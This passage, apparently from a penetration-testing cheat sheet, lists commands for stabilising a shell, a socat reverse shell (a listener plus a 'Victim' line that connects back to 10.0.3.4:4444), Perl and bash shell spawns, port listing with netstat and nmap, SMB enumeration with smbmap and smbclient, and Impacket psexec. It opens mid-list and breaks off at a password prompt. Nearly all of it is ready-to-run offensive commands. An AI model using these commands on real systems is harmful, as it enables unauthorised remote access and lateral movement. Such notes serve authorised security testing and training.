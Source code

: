 ```
5. reset (sometimes optional)
6. export SHELL=bash
7. export TERM=xterm-256color
8. stty rows <num> columns <cols> (optional)
(Sometimes the command will need to be executed: export TERM=xterm)
```

Using socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444
#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```

#### Perl
1. perl -e 'exec "/bin/sh";'
2. perl: exec "/bin/sh";

#### Bash
/bin/sh -i

Show listening ports
----------------
- Linux netstat syntax
	1. netstat -tulpn | grep LISTEN

- FreeBSD/MacOS X netstat syntax
	1. netstat -anp tcp | grep LISTEN
	2. netstat -anp udp | grep LISTEN
	
- OpenBSD netstat syntax

	1. netstat -na -f inet | grep LISTEN
	2. netstat -nat | grep LISTEN

- Nmap scan syntax
	1. sudo nmap -sT -O localhost
	2. sudo nmap -sU -O 192.168.2.13 ##[ list open UDP ports ]##
	3. sudo nmap -sT -O 192.168.2.13 ##[ list open TCP ports ]##

SMB - Enumeration
----------------
- https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
- smbmap -H 10.10.10.10
- smbclient -L 10.0.0.10
- smbclient //10.10.10.10/share$

SMB - Impacket
----------------
- Impacket's PSEXEC (After creating a remote port fwd)
/usr/share/doc/python-impacket/examples/psexec.py user@10.10.10.10

Password: (password)
